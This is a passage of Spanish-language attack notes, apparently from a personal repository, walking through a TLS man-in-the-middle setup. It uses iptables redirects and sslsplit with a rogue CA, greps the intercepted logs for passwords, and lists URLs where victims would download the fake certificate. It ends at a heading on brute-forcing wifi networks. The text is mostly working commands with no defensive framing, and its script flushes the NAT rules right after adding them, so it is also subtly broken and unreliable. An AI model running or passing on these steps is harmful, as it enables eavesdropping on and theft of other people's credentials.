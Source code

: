 Editar el script "ip.sh" que teníamos y añadir debajo lo siguiente
```
iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables-legacy -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
iptables-legacy -t nat -F
```

Volver a lanzar
```
sudo ./ip.sh
```
Creamos la carpeta logdir dentro de `sslsplit`.
```
cd
cd pruebas/sslsplit
mkdir logdir
```

## Iniciar SSL

Creamos el directorio.
```
mkdir /tmp/sslsplit
````
```
cd
cd pruebas/sslsplit
```
Ejecutamos en otra consola este comando:
```
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt https 0.0.0.0 8443 tcp 0.0.0.0 8080
```
Y en otra terminal:
```
cd
cd pruebas/sslsplit
tail -f connections.log
```
*BUSCAMOS LA PASS?? MEDIANTE EL FILTRO??*
```
cd
cd pruebas/sslsplit/logdir
ls -la
grep -r 'pass' ./
```


## Certificado
Ruta para descargarse el certificado.
```
http://luisangel2.es/ca.crt
o
https://github.com/luisesp19/ap/raw/main/ca.zip
```
# Fuerza bruta de una red wifi
